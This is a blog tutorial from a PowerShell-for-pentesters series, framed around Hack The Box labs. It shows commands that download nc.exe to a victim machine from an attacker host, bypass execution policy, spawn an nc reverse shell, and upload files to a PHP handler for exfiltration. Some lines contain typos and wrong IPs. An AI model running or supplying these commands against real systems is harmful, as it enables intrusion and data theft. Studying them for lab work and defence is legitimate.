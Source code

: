 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-31
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files from a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine. There are hundreds of examples more intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt with remote code execution. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient</h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This is from personal experience, where the above failes completely or a binary is not downloaded, or downloading slowly. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight bash linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Exfiltrating Data</h1>

This is a method where you use a HTML server running on your Kali Linux attacking machine, where PowerShell can upload a file from a victim machine to your Kali. First, we will need to create a PHP page to process our upload request. This can be found here:

{% highlight bash linenos %}
<?php
$uploaddir = '/var/www/uploads';
$uploadfile = '$uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
{% endhighlight %}

Also, make sure that the upload directory exists in your Kali Linux. Once saved and created into our `/var/www/html` directory as `upload.php`, start and stop our local Apache processes:

{% highlight bash linenos %}
sudo service apache2 status
/etc/init.d/apache2 start
/etc/init.d/apache2 stop
{% endhighlight %}

And once running, from the victim box, call the PowerShell command to exfiltrate the data you require:

{% highlight bash linenos %}
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.1/upload.php, 'file.txt')"
{% endhighlight %}

And check your upload directory for the file!

Thank you for reading, please keep coming back for more in this series as nanobyte learns and updates PowerShell For Penetration Testers!
